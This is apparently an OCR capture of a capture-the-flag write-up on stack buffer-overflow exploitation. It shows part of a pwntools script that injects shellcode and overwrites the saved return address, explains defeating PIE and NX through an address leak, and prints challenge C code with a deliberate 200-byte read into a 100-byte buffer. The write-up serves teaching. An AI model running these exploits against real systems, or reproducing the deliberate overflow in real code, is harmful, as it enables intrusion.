 ```python

input("injecting shellcode")
addr = struct.pack('<Q', int(addr, base=16))
p.send(b"\x90"*71 + sc + c + b"A"*8 + addr)
p.recv()

input("exiting the loop...")
p.send("\n")
p.recv()
p.interactive()
```

Regarding **ASLR**, we have to go one step further: we have `PIE` enabled, which means no more hardcoded global buffers. We also got `NX`, so no local buffer overflows. To solve this challenge we have to <u>leak the address of the global buffer</u>, which is executable, put there the shellcode and overwrite seip with its address. Source code of the challenge:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

#define PS1SIZE 100
char ps1[PS1SIZE];

int main(){
  char echostring[100];
  int l;
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Welcome to Leakers!\n");
  if (mprotect((long)ps1 & 0xfffffffffffff000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC) == -1){
    puts("Failed mprotect!");
    return -1;
  }
  l = read(0, ps1, PS1SIZE);
  if (l>1){
    ps1[l-1]='\x00';
   }
  while(2){
    l = read(0, echostring, 200);
    if(l == 1 && (echostring[0] == '\n' || echostring[0] == '\x00')){
      puts("Bye!");
      break;
    }
    printf("%s> %s", ps1, echostring);
  }
```
